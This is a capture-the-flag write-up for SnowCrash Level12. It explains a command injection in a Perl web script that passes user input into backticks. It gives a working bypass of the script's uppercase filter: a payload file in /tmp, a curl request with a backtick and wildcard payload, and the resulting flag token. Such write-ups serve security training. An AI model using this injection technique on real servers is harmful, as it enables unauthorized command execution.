 # Level12

This time, we find a perl script `level12.pl` owned by `flag12` in our home directory. It appears to be a web server to handle HTTP requests on port 4646.

We see our first argument taken in: `$xx = $_[0];`

Next, lowercase characters are converted to uppercase: `$xx =~ tr/a-z/A-Z/;`

Then all characters are truncated after the first whitespace: `$xx =~ s/\s.*//;`

Finally, we see the vulnerability, where our input is executed and we can inject a command: ``@output = `egrep "^$xx" /tmp/xd 2>&1`;``

Our goal, similarly to the previous level, is to make this script execute `getflag > /tmp/flag` for us. However, the rudimentary input sanitization in the script will prevent this, so let's make a quick workaround.

```
echo 'getflag > /tmp/flag' > /tmp/MAGIC && chmod 777 /tmp/MAGIC
```

We'll create a file with our desired command inside it, make its name uppercase to avoid problems with the sanitization, and give everyone and everything permissions to it.

```
curl localhost:4646/?x='`/*/MAGIC`'
```

Make an HTTP GET request to the server, passing our magic file path as our input for x. We use the `*` wildcard to avoid `/tmp` being translated to `/TMP` by the input sanitization.

```
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Now we can `su level13`.